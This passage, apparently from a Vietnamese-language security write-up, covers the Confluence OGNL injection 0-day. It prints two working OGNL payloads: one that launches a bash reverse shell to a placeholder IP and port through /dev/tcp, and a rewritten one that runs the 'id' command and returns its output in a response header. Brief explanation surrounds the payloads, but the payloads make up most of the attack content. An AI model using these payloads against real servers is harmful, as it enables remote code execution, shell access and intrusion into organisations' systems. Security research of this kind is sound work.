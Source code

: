 
##### Sử dụng các class có sẵn và không bị blacklist
Payload này được lấy từ repo [jbaines-r7/through_the_wire](https://github.com/jbaines-r7/through_the_wire/blob/main/through_the_wire.py#L78=). Thông tin rằng đây là payload ban đầu mà nhóm APT-31 đã thực hiện tấn công khiến cho lỗ hổng 0-day của Confluence lúc này bị phát hiện và được biết đến rộng rãi như hiện tại.
```
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("", Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/IP/PORT 0>&1').start()"))}
```

Payload này có nhiệm vụ chính là khởi tạo 1 `nashorn` instance (Javascript engine được tích hợp vào Java) và gọi đến `ProcessBuilder.command()` nhằm mục đích chạy payload để reverse shell.

Chúng ta có thể viết lại để payload này trả về kết quả tại giá trị trong header response như sau:
```
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("Result",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("res='';is=java.lang.Runtime.getRuntime().exec('id').getInputStream();while(is.available())res+=String.fromCharCode(is.read());res"))}
```
![](https://i.imgur.com/ihKqH7H.png)
